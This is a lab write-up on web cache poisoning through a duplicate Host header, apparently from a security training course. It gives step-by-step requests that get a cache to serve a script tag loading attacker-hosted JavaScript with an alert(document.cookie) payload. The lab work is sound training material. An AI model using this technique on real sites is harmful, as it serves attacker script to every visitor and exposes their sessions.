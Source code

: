 However, if the target uses a web cache, it may be possible to turn this useless, reflected vulnerability into a dangerous, stored one by persuading the cache to serve a poisoned response to other users.

To construct a web cache poisoning attack, you need to elicit a response from the server that reflects an injected payload. The challenge is to do this while preserving a cache key that will still be mapped to other users' requests. If successful, the next step is to get this malicious response cached. It will then be served to any users who attempt to visit the affected page.

Standalone caches typically include the Host header in the cache key, so this approach usually works best on integrated, application-level caches. That said, the techniques discussed earlier can sometimes enable you to poison even standalone web caches. 

### PRACTITIONER Lab: Web cache poisoning via ambiguous requests
Lab's solution:
- In Repeater, study the lab's behavior. Notice that the website validates the Host header. If you modify the Host header, you can no longer access the home page.
- In the original response, notice the verbose caching headers, which tell you when you get a cache hit and how old the cached response is. Add an arbitrary query parameter to your requests to serve as a cache buster, for example, GET /?cb=123. You can change this parameter each time you want a fresh response from the back-end server.
- Notice that if you add a second Host header with an arbitrary value, this appears to be ignored when validating and routing your request. Crucially, notice that the arbitrary value of your second Host header is reflected in an absolute URL used to import a script from /resources/js/tracking.js
- Remove the second Host header and send the request again using the same cache buster. Notice that you still receive the same cached response containing your injected value.
- Go to the exploit server and create a file at /resources/js/tracking.js containing the payload alert(document.cookie). Store the exploit and copy the domain name for your exploit server.
- Back in Burp Repeater, add a second Host header containing your exploit server domain name. The request should look something like this:
```bash
GET /?cb=123 HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
```
- Send the request a couple of times until you get a cache hit with your exploit server URL reflected in the response. To simulate the victim, request the page in the browser using the same cache buster in the URL. Make sure that the alert() fires.
- In Burp Repeater, remove any cache busters and keep replaying the request until you have re-poisoned the cache. The lab is solved when the victim visits the home page

i.e. the solution:
on exploit server change the url to `/resources/js/tracking.js`
And send the req:
```bash
GET / HTTP/1.1
Host: 0a20008103a87e19804c8f5500d30042.h1-web-security-academy.net
Host: exploit-0adf00f503307eec80ca8e6601510076.exploit-server.net
```
in reponse we'll see:
```bash
<script type="text/javascript" src="//exploit-0adf00f503307eec80ca8e6601510076.exploit-server.net/resources/js/tracking.js"></script>
```
